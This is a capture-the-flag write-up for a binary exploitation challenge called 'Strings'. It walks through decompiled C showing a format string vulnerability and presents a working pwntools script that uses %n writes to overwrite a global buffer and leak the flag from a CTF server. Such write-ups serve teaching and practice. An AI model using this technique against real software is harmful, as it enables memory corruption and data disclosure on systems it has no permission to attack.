 ```yaml
---
title: Strings
date: 2023-06-10
type: writeup
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

I love Strings! Do you? Let me know!

Author: NoobMaster

## Solution

Decompiling the binary - we can first see a clear format string vulnerability. We get to read into a buffer that then gets printed directly with printf. Perhaps we can use it to leak an address, or write to somewhere with the ``%n`` format string.

```c
void main(EVP_PKEY_CTX *param_1)
{
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("Do you love strings? ");
  fgets(local_78,100,stdin);
  printf(local_78);
  main2();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Decompiling ``main2()``, we can see that it prints a global buffer ``fake_flag``, again introducing another format string vulnerability. We can see that the real flag is read into the ``local_38`` buffer. The idea for the solution would be to first use ``%n`` to rewrite ``fake_flag`` to ``%s``, so it prints out the real flag.
```c
void main2(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_38,0x28,__stream);
  printf(fake_flag);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
So there are a few things to know about format string vulnerability. Firstly, we can access a relative argument passed to printf, by adding a number to the format string. For example ``%5$s`` would print the string found at the 5th address on the stack. Well, it would, if it were a 32-bits binary. But on 64-bits it gets even better - the first arguments that printf looks at are the registers. (as the following [repo](https://github.com/Mymaqn/The-danger-of-repetivive-format-string-vulnerabilities-and-abusing-exit-on-full-RELRO) suggests). The first argument on the stack would actually be the 6th. This might not be true every time, I'm unsure why, but the current binary will have the stack starting at the 5th argument.

Another thing we have to know, is that in 64-bits binaries, we have to append addresses to our payload, instead of inserting them at the beginning. Because they have null bytes in them, which will mess with printf. This is highlighted in this [blog](https://tripoloski1337.github.io/ctf/2020/06/11/format-string-bug.html).

Knowing all these details, we can start working towards the exploit. First, we extract the address of ``fake_flag``. We want to write ``%5$s`` to it, because that's where the stack starts and where our real flag is. As per the blogpost earlier, writing 4 bytes would take a lot of printing, which will take a lot of time. So we have to write 2 bytes and then another 2 bytes. We print ``x`` bytes with ``%xc``, where ``x`` is the integer value for ``%5``. Then we write to the ``fake_flag`` address. We do the same with the ``$s``. We also have to pad the payload properly, so the stack is properly aligned. The full exploit:

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./strings")
target = remote("challs.n00bzunit3d.xyz",7150)

x = int.from_bytes(b"%5", byteorder='little')
y = int.from_bytes(b"$s", byteorder='little')

fake_flag_addr = p64(0x00404060)
fake_flag_addr_next = p64(0x00404060 + 2)

payload = "%{}c%10$hn%{}c%11$hnaaaaaa".format(x, y-x).encode() + fake_flag_addr + fake_flag_addr_next
#print(payload)

target.sendline(payload)
target.interactive()
```
We run the exploit:
```
$ ./solve.py
[...] # lots of whitespaces
\x8baaaaaa`@@n00bz{.hidden_and_famous}
z{f4k3_fl4g}[*] Got EOF while reading in interactive
```

Weird flag. But good win.

